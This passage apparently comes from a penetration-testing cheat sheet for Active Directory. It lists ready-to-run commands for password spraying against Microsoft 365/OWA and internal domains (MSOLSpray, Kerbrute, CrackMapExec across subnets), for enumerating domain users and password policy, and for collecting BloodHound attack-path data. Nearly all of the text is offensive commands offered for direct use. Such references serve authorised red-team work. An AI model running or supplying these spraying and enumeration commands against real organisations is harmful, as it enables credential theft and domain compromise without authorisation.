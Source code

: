    * `(Get-Acl 'AD:\CN=testuser,CN=Users,DC=test,DC=lab,DC=local').Access`


## Password Spray (external)

* MFASweep
   * `Invoke-MFASweep -Username <email> -Password <pass>`
* MSOLSpray
   * `Invoke-MSOLSpray -UserList users.txt -Password <pass>`
* SprayingToolkit
   * `python3 atomizer.py owa <domain> --recon`
   * `python3 atomizer.py owa <domain> <pass> users.txt`


## Password Spray (internal)

* AD Users
   * ADSI
      * `([adsisearcher]"objectCategory=User").Findall() | ForEach {$_.properties.samaccountname} | Sort | Out-File -Encoding ASCII users.txt`
   * BloodHound
      * `cat users.json | jq | grep samaccountname | cut -d '"' -f 4 | sort -u > users.txt`
   * Impacket
      * `GetADUsers.py <domain>/<user>:<pass> [-dc-ip <ip>]`
* Password Policy
   * Net Command
      * `net accounts /dom`
   * ActiveDirectory Module
      * `Get-ADDefaultDomainPasswordPolicy`
   * See CrackMapExec section
* Kerbrute
   * `kerbrute passwordspray -d <domain> users.txt <pass> [--dc <ip>]`
   * Don't forget to try: `--user-as-pass`
* PowerShell
   * `Invoke-DomainPasswordSpray -Password <pass> -Force -OutFile spray.txt`


## CrackMapExec (CME)

* Password Policy
  * `crackmapexec smb <ip> -d <domain> -u <user> -p <pass> --pass-pol`
* Password Spray
  * `crackmapexec [mssql|rdp|smb|winrm] <subnet>> -u <user> -p <pass> --continue-on-success`


## BloodHound

* Don't forget to check ALL domains!
* Csharp
   * `SharpHound.exe --CollectionMethod All --ExcludeDomainControllers --NoSaveCache`
* PowerShell
   * `Invoke-BloodHound -CollectionMethod All -ExcludeDCs -NoSaveCache`
* BOF
   * `sharphoundbof --CollectionMethod All --ExcludeDomainControllers --NoSaveCache`
* Python
   * `proxychains bloodhound-python -c all -u <user> -p '<pass>' -d <domain> -dc <dc> -ns <ns> --dns-timeout 30 --dns-tcp`
* BOFHound
   * First gather data with ldapsearch: `ldapsearch (objectclass=*)`
   * `python3 -m pip install bofhound`
   * `bofhound -o /data/`
* ADExplorerSnapshot
   * First create a snapshot with ADExplorer
   * `git clone https://github.com/c3c/ADExplorerSnapshot.py.git`
   * `python3 -m pip install .`